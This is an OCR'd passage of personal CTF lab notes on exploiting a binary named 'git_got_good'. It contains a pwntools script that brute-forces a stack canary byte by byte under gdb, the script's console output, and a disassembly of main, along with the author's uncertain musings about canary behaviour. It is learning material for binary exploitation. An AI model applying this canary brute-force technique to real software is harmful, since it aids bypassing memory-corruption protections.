 PROBLEM....I think it changes every time you run the program
###### Brute Force Canary Script:
```python
def catchCanary():
	p =  process('/bin/bash')
	p.sendline('gdb ./git_got_good -q')
	base = cyclic(14)
	for i in range(0,255):
		print("i = ", i)
		#p.sendline("break *0x0000000000400800")
		p.sendline("r")
		d = p.recvuntil("save:")
		pld = base + b"".join([struct.pack("B", 0x00), struct.pack("B", i)])
		p.sendline(pld)
		#p.interactive()
		p.recvuntil("to my buffer...\n")
		while True:
			ln = cleanLine(p.recvline())
			#print(ln)
			if re.search(".*Inferior", ln):
				print("No segfault!")
				print(ln)
				print(i)
				return 0
			elif re.search(".*SIGSEGV.*", ln):
				p.recv(timeout=0.05)
				break
```
First attempt:
```
┌──(kali㉿kali)-[~/Desktop/5-Week]
└─$ python3 GetGOTGood_Pwn1.py
i =  1
i =  2
i =  3
i =  4
i =  5
i =  6
i =  7
i =  8
i =  9
i =  10
No segfault!
```
Actually, that happened every time we ran it.

I know, for some of the remote programs, it spins up a new process of the same instance with every connection, meaning the canary is the same each time but...I'm never sure how that works

I guess I'm gonna try to see if I can fit it in my payload

# Okay, so I think I'm looking at this payload wrong
###### Main
```
Dump of assembler code for function main:
   0x000000000040076b <+0>:     push   %rbp
   0x000000000040076c <+1>:     mov    %rsp,%rbp
=> 0x000000000040076f <+4>:     sub    $0x20,%rsp
   0x0000000000400773 <+8>:     mov    %fs:0x28,%rax
   0x000000000040077c <+17>:    mov    %rax,-0x8(%rbp)
   0x0000000000400780 <+21>:    xor    %eax,%eax
   0x0000000000400782 <+23>:    movq   $0x601080,-0x10(%rbp)
   0x000000000040078a <+31>:    mov    $0x0,%eax
   0x000000000040078f <+36>:    call   0x400726 <init>
```